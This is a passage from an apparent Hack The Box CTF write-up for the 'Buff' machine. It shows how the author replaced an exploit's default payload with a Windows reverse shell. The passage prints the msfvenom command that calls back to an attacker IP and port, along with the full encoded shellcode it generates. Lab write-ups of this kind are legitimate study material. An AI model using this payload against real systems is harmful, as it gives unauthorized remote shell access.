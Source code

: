```
Store key in cache? (y/n) y
root@kali:~#  
```

Some more detail about this can be found in my [Granpa Writeup](https://github.com/matale14/Writeups/blob/main/HTB/Granpa/Granpa.MD)

The default payload for the exploit is `msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python`

So we simply change the payload to a reverse shell here:

```
root@kali:/home/kali/htb/Buff# msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.51 LPORT=1338 -b '\x00\x0A\x0D' -f py
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of py file: 1712 bytes
buf =  b""
buf += b"\xbd\xb7\xc3\x27\x99\xdd\xc0\xd9\x74\x24\xf4\x5b\x31"
buf += b"\xc9\xb1\x52\x83\xeb\xfc\x31\x6b\x0e\x03\xdc\xcd\xc5"
buf += b"\x6c\xde\x3a\x8b\x8f\x1e\xbb\xec\x06\xfb\x8a\x2c\x7c"
buf += b"\x88\xbd\x9c\xf6\xdc\x31\x56\x5a\xf4\xc2\x1a\x73\xfb"
buf += b"\x63\x90\xa5\x32\x73\x89\x96\x55\xf7\xd0\xca\xb5\xc6"
buf += b"\x1a\x1f\xb4\x0f\x46\xd2\xe4\xd8\x0c\x41\x18\x6c\x58"
buf += b"\x5a\x93\x3e\x4c\xda\x40\xf6\x6f\xcb\xd7\x8c\x29\xcb"
buf += b"\xd6\x41\x42\x42\xc0\x86\x6f\x1c\x7b\x7c\x1b\x9f\xad"
buf += b"\x4c\xe4\x0c\x90\x60\x17\x4c\xd5\x47\xc8\x3b\x2f\xb4"
buf += b"\x75\x3c\xf4\xc6\xa1\xc9\xee\x61\x21\x69\xca\x90\xe6"
buf += b"\xec\x99\x9f\x43\x7a\xc5\x83\x52\xaf\x7e\xbf\xdf\x4e"
buf += b"\x50\x49\x9b\x74\x74\x11\x7f\x14\x2d\xff\x2e\x29\x2d"
buf += b"\xa0\x8f\x8f\x26\x4d\xdb\xbd\x65\x1a\x28\x8c\x95\xda"
buf += b"\x26\x87\xe6\xe8\xe9\x33\x60\x41\x61\x9a\x77\xa6\x58"
buf += b"\x5a\xe7\x59\x63\x9b\x2e\x9e\x37\xcb\x58\x37\x38\x80"
buf += b"\x98\xb8\xed\x07\xc8\x16\x5e\xe8\xb8\xd6\x0e\x80\xd2"
buf += b"\xd8\x71\xb0\xdd\x32\x1a\x5b\x24\xd5\x2f\x96\x28\x16"
buf += b"\x58\xa4\x34\x5d\xa2\x21\xd2\x37\xc2\x67\x4d\xa0\x7b"
buf += b"\x22\x05\x51\x83\xf8\x60\x51\x0f\x0f\x95\x1c\xf8\x7a"
buf += b"\x85\xc9\x08\x31\xf7\x5c\x16\xef\x9f\x03\x85\x74\x5f"
buf += b"\x4d\xb6\x22\x08\x1a\x08\x3b\xdc\xb6\x33\x95\xc2\x4a"
buf += b"\xa5\xde\x46\x91\x16\xe0\x47\x54\x22\xc6\x57\xa0\xab"
buf += b"\x42\x03\x7c\xfa\x1c\xfd\x3a\x54\xef\x57\x95\x0b\xb9"
buf += b"\x3f\x60\x60\x7a\x39\x6d\xad\x0c\xa5\xdc\x18\x49\xda"
buf += b"\xd1\xcc\x5d\xa3\x0f\x6d\xa1\x7e\x94\x9d\xe8\x22\xbd"
buf += b"\x35\xb5\xb7\xff\x5b\x46\x62\xc3\x65\xc5\x86\xbc\x91"
buf += b"\xd5\xe3\xb9\xde\x51\x18\xb0\x4f\x34\x1e\x67\x6f\x1d"
root@kali:/home/kali/htb/Buff# 
```

